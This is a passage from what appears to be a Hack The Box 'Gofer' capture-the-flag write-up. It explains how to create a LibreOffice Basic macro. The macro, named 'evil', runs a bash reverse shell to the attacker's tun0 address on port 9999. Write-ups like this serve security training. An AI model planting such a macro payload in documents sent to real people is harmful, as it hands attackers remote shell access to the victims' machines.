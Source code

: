 **3-** Clicking on '**Basic**' will open the '**BASIC Macros**' window, allowing you to add a new macro. In this window, select the filename and click on '**New**'. You can choose any name for it and then click '**Ok**': <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-gofer/2023-08-01 13_45_38-KaliLinuxOS - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i></i></center>
<br/>

**4-** The '**Object Catalog**' should open with your new macro selected and ready for editing. Replace all the sample text in the macro with the following: <br/>

```bash
Sub evil

    Shell("bash -c 'bash -i >& /dev/tcp/tun0-IP/9999 0>&1'")
    
End Sub
```

> *Make sure to change 'tun0-IP' with your tun0 interface IP address !!*
